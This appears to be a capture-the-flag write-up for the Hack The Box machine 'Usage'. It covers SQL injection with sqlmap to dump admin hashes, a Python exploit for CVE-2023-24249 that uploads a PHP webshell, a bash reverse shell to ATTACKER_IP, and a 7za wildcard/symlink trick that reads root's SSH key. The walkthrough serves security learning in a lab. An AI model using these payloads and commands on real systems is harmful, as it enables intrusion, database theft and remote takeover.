This box is rated easy difficulty on HTB. It involves us exploiting SQL injection to dump a web application's database and sign in as an Administrator. Then we abuse an outdated Laravel module to upload a reverse shell on the system. Finally, a hardcoded password in a service's config file lets us pivot users who is able to run an insecure binary as root to read arbitrary files.

## Scanning & Enumeration
As always, I begin with an Nmap scan against the given IP to find all services running on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p22,80 -sCV 10.129.8.218 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-26 01:51 CST
Nmap scan report for 10.129.8.218
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80


Not a whole lot we can do on that version of OpenSSH without credentials, so I fire up Gobuster to search for subdirectories/subdomains before heading over to the website. I'll add `usage.htb` to my `/etc/hosts` file because default scripts show that the server is redirecting us to that domain.

Checking out the landing page shows a typical login panel and attempting to use default credentials to sign in doesn't return anything.



I capture a request to the Reset Password function out of curiosity to see if we're able to intercept anything of importance, which leads me to finding a way to enumerate valid emails on the site and a cookie disclosing that it's built on the Laravel framework.



Before registering an account, I add `admin.usage.htb` to my hosts file as the admin tab redirects us to that subdomain and find another login panel for administrative purposes. Once logged in on a new account, there's not much on the site other than some blog posts that may be hinting at some type of attack targeting the Server-Side language in place.


## Dumping DB with SQL Injection
Since nothing that we registered with was being reflected upon login, I swap to exploiting the register and login functions themselves. Really the only thing that it could've been was SQL injection, so while trying that out I discover that the server throws a `500 Internal Server Error` on the forgot password feature whenever supplied with a single quote.




That's a great sign that we may be able to enumerate the database via SQL injection. First, let's try to enumerate how many columns are in play so that we don't get an error every time.

```
' UNION SELECT 1,2,3,4,5,6,7,8-- -
```



Looks like 8 is the magic number and since the page doesn't display the executed query, I'll send this to SQLmap in order to carry out the attack as Boolean-based or Time-based blind injections are meticulous. Skipping past all the debugging and tuning the tool to detect the vulnerability reveals that we are in the `usage_blog` database.



```
sqlmap -r sqli.req --batch --level=5 --risk=3 --dbs
```


Next up is tables.

```
sqlmap -r sqli.req --batch --level=5 --risk=3 -D usage_blog --tables
```



That's a ton of info, but we'd probably like the `admin_users` table as it could contain any passwords or hashes for administrators on the site.

```
sqlmap -r sqli.req --batch --level=5 --risk=3 -D usage_blog -T admin_users --dump
```



Et voila, let's send that hash over to JohnTheRipper or Hashcat to grab the plaintext variant and login at the admin portal.



Upon login, we find some site information including the PHP/Laravel versions and installed dependencies.



RCE via Outdated Laravel Module
I'm at least familiar with most of those names, but encore/laravel-admin caught my eye as it pertains to permissions which may be handy if it turns out to be vulnerable. A quick Google search returns [CVE-2023–24249](https://nvd.nist.gov/vuln/detail/CVE-2023-24249) which explains that our application is prone to arbitrary file uploads in order to get RCE via a crafted PHP file.

I create a quick python script to exploit this vulnerability to upload a webshell as a proof of concept:

```
import re
import requests

USERNAME = 'admin'
PASSWORD = 'whatever1'
URL = 'http://admin.usage.htb'
PAYLOAD = b'<?php system($_REQUEST["cmd"]);?>'

UPLOAD_PATH = f'{URL}/admin/auth/setting'
LOGIN_PATH = f'{URL}/admin/auth/login'

def get_token(text):
    return re.search(r'name="_token" value=".*">', text)[0][21:-2]

session = requests.Session()

response = session.get(LOGIN_PATH)
token = get_token(response.text)
response = session.post(LOGIN_PATH, data={'username':USERNAME, 'password':PASSWORD, 'remember':'1', '_token':token})

response = session.get(UPLOAD_PATH)
token = get_token(response.text)

files = {
    '_token': (None, token),
    '_method': (None, 'PUT'),
    'avatar': ('shell.php', PAYLOAD, 'image/jpeg')
}

response = session.post(UPLOAD_PATH, files=files)

shell_path = re.search(r'uploads\/images.*php"', response.text)[0][:-1]
full_shell_path = f'{URL}/{shell_path}'

print(f'[+] Uploaded to {full_shell_path}')
```

Once that's uploaded to the server, we can find it under the `/uploads/images/` directory and give it the cmd parameter to execute commands. Testing it with a simple id command shows that the server is running as the dash user.



Next, let's grab a shell on the box. Make sure to URL encode the payload if you have trouble getting it to execute. Also note that the site cleans the uploads directory around every minute, so if your file stops working, simply restart.

```
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

## Privilege Escalation
At this point we can grab the user flag under our our directory and upgrade our shell by snagging his SSH priv key to authenticate over port 22. Seeing as there were many files pertaining to Monit (a process supervision service), I figured that another user would be in charge of it instead of our current account.

Inside of .monitrc are plaintext credentials for an admin, and displaying `/etc/passwd` only showed one other user on the box.



Attempting to switch users with it actually works to pivot accounts. Whilst going about the typical routes for root privilege escalation, I find that Xander can run a custom site management script as root user. A test run shows that we can specify one of three parameters to execute commands on the system.



Options 2 and 3 didn't seem to do much other than print a success message without proof, however the project backup one attempted to zip a directory and output it `/var/backups` using 7zip. Using the string utility on this binary reveals the command being ran when option 1 is called.



It begins by changing directories into /var/www/html to set the environment. The presence of a wildcard operator at the end of the 7za command gives way for attackers to supply various things. By referring to this [Hacktricks article](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html#7-zip--7z--7za) on wildcard spare tricks, I learn that we can control what files the binary reads and have it print the contents to stderr as it fails to execute.

### Arbitrary File Read via Symbolic Links
To exploit this, we must supply a file named `@anything` as well as another file matching the first one without the `@` character. The important part here is that we create a symbolic link from the second file to the arbitrary file we want to read. When 7zip processes our input, it takes in `@anything` as a kind of marker to to include the symbolic link file as a list to read. Since the link file doesn't contain a list, the binary throws an error and the contents of the file that's linked to it gets dumped to stderr.

It's a bit strange to explain so let's just put it into practice. I want to read root's priv SSH key, so I start by making a file named `@cbev` and creating a symbolic link from cbev to `/root/.ssh/id_rsa`. Making sure that it's inside of `/var/www/html` (where 7za gets executed) and running the management binary with sudo reveals the file contents in the error output.

```
cd /var/www/html
touch @cbev; ln -s /root/.ssh/id_rsa cbev
sudo /usr/bin/usage_management
```



Saving that to a file and trimming the excess strings allows us to authenticate with the key as root user. Finally grabbing the root flag under our home directory completes this challenge.



That's all y'all, I quite liked this box as I've never seen this privesc technique before. I can see how this box could be ranked medium due to its length and users' previous BinEx experience. I hope this was helpful to anyone following along or stuck and happy hacking!
